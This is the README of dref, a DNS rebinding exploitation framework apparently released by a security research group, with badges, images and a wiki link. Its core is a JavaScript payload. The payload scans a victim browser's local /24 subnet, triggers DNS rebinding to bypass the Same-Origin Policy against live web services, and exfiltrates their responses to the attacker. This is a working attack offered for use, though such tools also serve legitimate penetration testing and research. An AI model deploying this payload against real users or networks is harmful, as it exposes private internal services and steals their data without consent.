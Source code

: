 <dl>
  <p align="center">
    <img src="https://raw.githubusercontent.com/serain/dref/master/docs/img/logo.png?token=AH5HJaNTqfEIQnbVSX_QaB2Br4R5we5Bks5bOpK4wA%3D%3D">
  </p>

  <!-- REPLACE SHIELDS -->
  <p align="center">
    <a href="https://travis-ci.org/serain/netmap.js.svg?branch=master" style="text-decoration: none">
      <img src="https://travis-ci.org/serain/netmap.js.svg?branch=master">
    </a>
    <a href="https://codecov.io/gh/serain/netmap.js">
      <img src="https://codecov.io/gh/serain/netmap.js/branch/master/graph/badge.svg">
    </a>
    <a href="https://greenkeeper.io/">
      <img src="https://badges.greenkeeper.io/serain/netmap.js.svg">
    </a>
    <a href="https://gitter.im/dref/Lobby/">
      <img src="http://badges.gitter.im/serain/dref.png">
    </a>
  </p>

  <p align="center">DNS Rebinding Exploitation Framework</p>

  <p align="center">
    <img src="https://raw.githubusercontent.com/serain/dref/master/docs/img/diagram.png?token=AH5HJYLZRcWi_aEJCVh8iU4efEQ4tkryks5bOpMMwA%3D%3D">
  </p>
</dl>

dref does the heavy-lifting for [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding). The following snippet from one of its [default payloads](https://github.com/mwrlabs/dref/wiki/Payloads#web-discover) shows the framework being used to scan a local subnet from a hooked browser; after identifying live web services it proceeds to exfiltrate GET responses, [breezing through the Same-Origin policy](https://github.com/mwrlabs/dref/wiki#limitations):

```javascript
// mainFrame() runs first
async function mainFrame () {
  // We use some tricks to derive the browser's local /24 subnet
  const localSubnet = await network.getLocalSubnet('24')

  // We use some more tricks to scan a couple of ports across the subnet
  netmap.tcpScan(localSubnet, [80, 8080]).then(results => {
    // We launch the rebind attack on live targets
    for (let h of results.hosts) {
      for (let p of h.ports) {
        if (p.open) session.createRebindFrame(h.host, p.port)
      }
    }
  })
}

// rebindFrame() will have target ip:port as origin
function rebindFrame () {
  // After this we'll have bypassed the Same-Origin Policy
  session.triggerRebind().then(() => {
    // We can now read the response across origin...
    network.get(session.baseURL, (code, headers, body) => {
      // ... and exfiltrate it
      session.log({code: code, headers: headers, body: body})
    })
  })
}
```

<dl>
  <img align="right" src="https://raw.githubusercontent.com/serain/dref/master/docs/img/exfiltrated.png?token=AH5HJUF5NJX7nlIHFdmlXn74LOZzzbjmks5bOuukwA%3D%3D">
  <img align="right" src="https://raw.githubusercontent.com/serain/dref/master/docs/img/arrow-bottom-right.png?token=AH5HJT0ROw-5c-TlZ7ZvUy0NaANoajbWks5bOuxuwA%3D%3D">
</dl>

<br /><br /><br /><br /><br /><br /><br /><br /><br />
Head over to the [Wiki](https://github.com/mwrlabs/dref/wiki) to get started.

<dl>
  <p align="center">
    <sub><i>This is a development release - <b>do not use in production</b></i></sub>
  </p>
</dl>
